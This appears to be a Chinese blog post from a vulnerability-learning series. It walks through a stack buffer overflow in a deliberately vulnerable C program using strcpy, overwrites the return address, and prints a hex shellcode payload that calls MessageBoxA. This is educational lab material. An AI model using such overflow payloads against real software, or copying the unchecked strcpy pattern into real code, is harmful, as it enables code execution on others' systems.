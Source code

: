 ```yaml
---
layout:     post
title:      0day漏洞学习（三）：栈溢出漏洞注入代码
subtitle:   利用栈溢出植入想要执行的代码。
date:       2021-04-10
author:     Hongtai S
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - shellcode
---
```


# 理论分析 #
上一节中通过栈溢出漏洞成功利用字符串截断符0x00将authenticated变量覆盖，修改判断条件并通过密码验证，但是实际上像"anthenticated"这种变量并不多见，真正能够引起黑客注意的是下一地址的“返回地址”，当函数执行结束后，程序执行流会跳转到返回地址，并继续执行，当我们覆盖返回地址时，岂不是将函数返回到任何我们想要的地址。而恰好我们将想要执行的机器指令写入栈，将返回地址覆盖为指令的起始地址，这样程序就会执行我们写入的命令。原理如下图：

![原理图.PNG](https://i.loli.net/2021/04/10/g3zLQVBOJWA6j94.png)

# 实验 #

实验代码如下
代码中多了windows.h库，为了方便程序顺利调用LoadLibrary()装载user32.dll；
buffer字符串扩充为44个字符，为了方便装入注入的代码；
LoadLibrary("user32.dll")用于初始化装载user32.dll，以便在植入代、码中调用 MessageBox。

```cpp,c

#include <stdio.h>
#include <string.h>
#include <windows.h> 
#define PASSWORD "1234567" 
int verify_password (char *password) 
{ 
    int authenticated; 
    char buffer[44]; 
    authenticated=strcmp(password,PASSWORD); 
    strcpy(buffer,password); 
    return authenticated; 
} 
main() 
{ 
    int valid_flag=0; 
    char password[1024]; 
    FILE * fp; 
    LoadLibrary("user32.dll");
    if(!(fp=fopen("password.txt","rw+"))) 
    { 
        exit(0); 
    } 
    fscanf(fp,"%s",password); 
    valid_flag = verify_password(password); 
    if(valid_flag) 
    { 
        printf("incorrect password!\n"); 
    } 
    else 
    { 
        printf("Congratulation! You have passed the verification!\n"); 
    } 
    fclose(fp); 
} 

```

首先创建password.txt，写入14个“4321”，用ollydby调试观察内存栈情况：

![栈状态.PNG](https://i.loli.net/2021/04/10/Ru1hxH42pQMJZmi.png)

4321可成功淹没返回地址，shellcode的初始地址为0x0012FAF0

编辑shellcode：
注入的代码主要功能是弹出对话框，需要调用MessageBoxA()函数，因此需要先获取MessageBoxA的入口地址，用Depency Walker随便打开一个有GUI元素的进程，找到user32.dll的装载基址，并找到MessageBoxA()函数的入口点：

![dependency.PNG](https://i.loli.net/2021/04/10/mJS54kIiDxltb6Y.png)

得到装载基址和入口点分别为0x77D10000和0x0004050B，
因此函数在内存中的地址为0x77D10000+0x0004050B = 0x77D5050B

得到shellcode：
\x33\xDB\x53\x66\x77\x65\x73\x74
\x68\x66\x61\x69\x6C\x8B\xC4\x53
\x53\x50\x50\x53\xB8\x0B\x05\xD5
\x77\xFF\xD0\x90\x90\x90\x90\x90
\x90\x90\x90\x90\x90\x90\x90\x90
\x90\x90\x90\x90\x90\x90\x90\x99
\x9D\x90\x90\x90\x90\xF0\xFA\x12
\x00

执行程序：

![success.PNG](https://i.loli.net/2021/04/10/yHJxCbgBsZdv1tq.png)

成功注入！